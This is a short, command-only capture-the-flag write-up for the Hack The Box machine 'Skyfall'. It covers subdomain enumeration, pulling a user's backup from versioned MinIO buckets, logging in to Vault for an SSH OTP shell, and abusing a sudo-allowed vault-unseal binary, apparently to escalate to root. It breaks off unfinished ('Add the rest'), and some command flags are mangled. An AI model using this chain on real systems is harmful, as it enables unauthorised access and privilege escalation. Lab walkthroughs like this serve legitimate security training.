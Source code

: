 # Skyfall HACKTHEBOX Writeup - Seasonal Machine (Insane)

https://cyberw1ng.medium.com

Adding Host: 

`IP skyfall.htb demo.skyfall.htb prd23-s3-backend.skyfall.htb prd23-vault-internal.skyfall.htb" | sudo tee -a /etc/hosts`

Nmap:

`nmap -sC -sV IP`

Dir Enum:

`gobuster dir -u http://skyfall.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

DNS Enum: 

`gobuster dns -d skyfall.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 20`


Installing Minio Client

```
curl https://dl.min.io/client/mc/release/linux-amd64/mc \
  --create-dirs \
  -o $HOME/minio-binaries/mc

chmod +x $HOME/minio-binaries/mc
export PATH=$PATH:$HOME/minio-binaries/
```

```
mc alias set myminio http://prd23-s3-backend.skyfall.htb ACCESS_KEY SECRET_KEY
mc ls - recursive - versions myminio
mc cp - vid 2b75346d-2a47–4203-ab09–3c9f878466b8 myminio/askyy/home_backup.tar.gz ./home_backup.tar.gz
tar -xzvf home_backup.tar.gz
cat .bashrc
wget https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip
unzip vault_1.15.5_linux_amd64.zip
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
./vault login
./vault token capabilities ssh/roles
./vault list ssh/roles
./vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@HTB_IP
sudo -l
rm -rf debug.log 
touch debug.log
sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
exit
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
./vault login
./vault ssh -role dev_otp_key_role -.......Add the rest

```
